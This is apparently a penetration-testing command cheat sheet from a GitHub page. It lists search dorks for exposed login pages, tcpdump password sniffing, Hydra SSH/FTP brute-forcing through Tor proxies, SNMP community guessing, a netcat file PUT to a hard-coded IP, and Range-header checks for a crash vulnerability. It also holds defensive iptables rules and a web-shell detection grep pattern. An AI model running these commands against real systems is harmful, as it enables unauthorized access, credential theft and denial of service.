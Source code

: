 # <img width="28" src="http://0z3r00t3r.6te.net/img/folder.png"> Terminal / Other
##### &#x1F538;  VPN config (term) :
`sudo openvpn --config vpnbook-euro2-tcp80.ovpn`

`hashcat -a 3 --stdout ?l | gobuster dir -u https://TARGET -w - --wildcard`

##### &#x1F538;  BEST DORK FOR Bing.com : 
    -site:.com intitle:login.page inbody:"User Login"
    intitle:login.page inbody:"User Login" instreamset:url:".php"
    intitle:"Admin Login" inbody:"login"
    intitle:"User Login" instreamset:url:login.php?id=
    intitle:"News" instreamset:url:news_id.php?id=
    inbody:"login" instreamset:url:sa/index.php?id=
    
    
##### &#x1F538; SSLscan Show full certificate information : 
`sslscan --http --bugs --verbose --show-certificate target.com`
    
##### &#x1F538; TCPdump eGrep username / password : 
`sudo tcpdump -A -i any -w loging.pcap | egrep -i 'username=|password=' --line-buffered -B20`

    sudo /usr/sbin/tcpdump -Nnn -i any -s0 'tcp[13] & 1 != 0'
    #Block ip : 
     - sudo iptables -A INPUT -s IP -j DROP
     - sudo /usr/sbin/tcpdump host <ip>	#check the ip traffic
     - sudo /usr/sbin/tcpdump portrange 80-137-443-445		#check port range between 80-445
     - sudo /usr/sbin/tcpdump src 10.0.0.13 and dst port 80 or 22	#traffic that from ip and port 
    

##### &#x1F538; AnyCMD : 
    #resolve websites
    - pnscan -v -s -t10 <TARGET>/24 80
    - dmitry -winsepo output.txt <TARGET>
    
    #check vm with crunch list install (sudo apt intall onesixtyone)
    - crunch 4 4 ad12 > smpList
    - onesixtyone -c smpList -d <TARGET>
    - snmpcheck -c smpList -d <TARGET>
    
    #TCP, UDP open ports in real time with socket summary
    - watch ss -stplu
    
    #view established connections
    - lsof -i
    - #looking for cracks:google:(Xxxx)" 94fbr)
    #Adding random word before list ex: admin -> will be -> 9xadmin,eqadmin,ifadmin:
    - paste <(base64 -w2 /dev/urandom) user_list.txt | awk 'NF==2{print $1$2} NF!=2{exit}'
    
##### &#x1F538; Grep / Find String : 
    #find inside any file and print it 
    - find /usr/share -iname '*SQLMAP*' -print
    - find /var/www/ -name "*.php"
    - find /home -type f -name '*.php' -mtime -7
    - find /var/www/html/ -type d -perm 755 -exec find {} -name "*.zip" \;
    - find / -xdev -type f -size +100M -exec ls -la {} \; | sort -nk 5
    - find . -name "*.sql"
    #Zip all folders to a1.zip
    - zip -r a1.zip .
    #Remove space between lines in file.txt / a.json result
    - sed '/^ *$/d' a1.json > output.txt
    #Print & save only 5 words in list.txt
    - awk 'length>5' list.txt > done_list.txt
    #Remove duplicate lines from file.txt file :
    - sort file.txt | uniq -d
    - sort -u file.txt
    
#### &#x1F538; Reading files end with php and search for Shell :
    grep '((eval.*(base64_decode|gzinflate|\$_))|\$[0O]{4,}|FilesMan|JGF1dGhfc|IIIl|die\(PHP_OS|posix_getpwuid|Array\(base64_decode|document\.write\("\\u00|sh(3(ll|11)))' . -lroE --include=*.php*

##### &#x1F538; SCAN Methods With openssl
    #Open terminal and type : 
        - openssl s_client -connect <TARGET:443>
    #Hit enter twice and enter :    
        OPTIONS / HTTP/1.1
        Host: <TARGET>

##### &#x1F538; PUT FILE WITH NetCat
    nc 190.115.18.139 80
    PUT /x.txt HTTP/1.1
    Host: 190.115.18.139



### &#x1F538; Hashed Type : 
    Urlencode : wef
    Double Urlencode : wef
    Base 64 : dDR0ZWFt
    Uri Hexadecimal : %74%34%74%65%61%6d
    Random upper : wef
    Double nibble hexa : %%37%34%%33%34%%37%34%%36%35%%36%31%%36%64
    SHA1 : 376ccc0db6534301362711e1fbc455f9710b447a
    MD5 : 7c3a9746c0bb3c99f4877edbbf6d3690
    Binary Ascii : 74347465616d
    Html Decimal : &#116;&#52;&#116;&#101;&#97;&#109;
    Html Hexadecimal : &#x74;&#x34;&#x74;&#x65;&#x61;&#x6d;
    UTF-8 Binary : \x74\x34\x74\x65\x61\x6d
    UTF-8 : \u0074\u0034\u0074\u0065\u0061\u006d
    Mysql char : CHAR(116,52,116,101,97,109)
    MSsql char : CHAR(116)+CHAR(52)+CHAR(116)+CHAR(101)+CHAR(97)+CHAR(109)
    All : CHAR(116)+CHAR(52)+CHAR(116)+CHAR(101)+CHAR(97)+CHAR(109)


##### &#x1F538; Check If return [Requested Range Not Satisfiable] means vulnerable :
    wget --header="Range: bytes=0-18446744073709551615" http://<TARGET/FILE.FILE
##### &#x1F538; Check if [BSOD] Vulnerable systems:
    wget --header="Range: bytes=18-18446744073709551615" http://<TARGET/FILE.FILE
##### &#x1F538; Stop ip / Block :
    sudo iptables -A INPUT 1 -s IP-ADDRESS-DDOS-HACKER-HERE -j DROP/REJECT
    sudo iptables-save 
   
    #Block IPs#4v3r
    - iptables -A INPUT -s xxxxxx -j DROP
    - iptables -A INPUT -s xxxxxxx -j DROP
    - iptables -A INPUT -s xxxxxxxx -p tcp --destination-port 80 -j DROP
    - iptables -A INPUT -s xxxxxxxx -p tcp --destination-port 443 -j DROP

##### &#x1F538; Generate 1M 0-1,000,000 number
    #!/usr/bin/env bash
    i=1
    while [ $i -le 1000000 ]
    do
        echo $i
        i=$(($i+1))
    done
 
 ##### &#x1F538; Random List 4 Words
    #!/usr/bin/env bash
    i=1
    while [ $i -le 10000 ]
    do
        tr -dc a-z0-9 </dev/urandom | head -c 4 ; echo ''
        i=$(($i+1))
    done

##### &#x1F538; Hydra
    hydra -t 64 -l root -V -x '4:4:aA1"@#$!()=`~?><;:%^&*_-+/,.\ ' ssh TARGET
    hydra -t 4 -l root -V -x '4:9:a-z' TARGET ssh HYDRA_PROXY=socks5://127.0.0.1:9150
    hydra -l admin -p /opt/backbox/warlist/password-ftp.txt ftp://TARGET HYDRA_PROXY=socks5://127.0.0.1:9050
    
